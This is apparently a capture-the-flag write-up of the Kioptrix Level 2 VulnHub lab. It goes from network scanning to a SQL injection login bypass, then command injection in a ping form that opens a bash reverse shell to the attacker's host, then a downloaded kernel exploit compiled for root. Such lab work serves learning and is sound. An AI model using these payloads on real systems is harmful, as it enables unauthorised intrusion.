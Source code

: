 ```yaml
---
layout: post
title: "Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub, Easy-VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 2/Kioptrix2.png
---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 2/netdiscover.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![nmap1](../../assets/img/posts/Kioptrix Level 2/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 2/nmap2.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![whatweb](../../assets/img/posts/Kioptrix Level 2/whatweb.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![web1](../../assets/img/posts/Kioptrix Level 2/web1.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![web2](../../assets/img/posts/Kioptrix Level 2/web2.png)

we'll get logged in as administrator,

![web3](../../assets/img/posts/Kioptrix Level 2/web3.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![web4](../../assets/img/posts/Kioptrix Level 2/web4.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![web5](../../assets/img/posts/Kioptrix Level 2/web5.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![web6](../../assets/img/posts/Kioptrix Level 2/web6.png)

as soon as this command runs, we'll get back a reverse connection,

![shell1](../../assets/img/posts/Kioptrix Level 2/shell1.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. 

**Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![shell2](../../assets/img/posts/Kioptrix Level 2/shell2.png)

this box is running **CentOS 4.5 Final**.

Let's take a look at kernel version,

```bash
uname -mrs
```

![shell3](../../assets/img/posts/Kioptrix Level 2/shell3.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![searchsploit](../../assets/img/posts/Kioptrix Level 2/searchsploit.png)

this is a C file exploit.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

Now, let's run the exploit,

```bash
./9542
```

![shell4](../../assets/img/posts/Kioptrix Level 2/shell4.png)

doing `id` will show us that we're now ROOT user!!!.

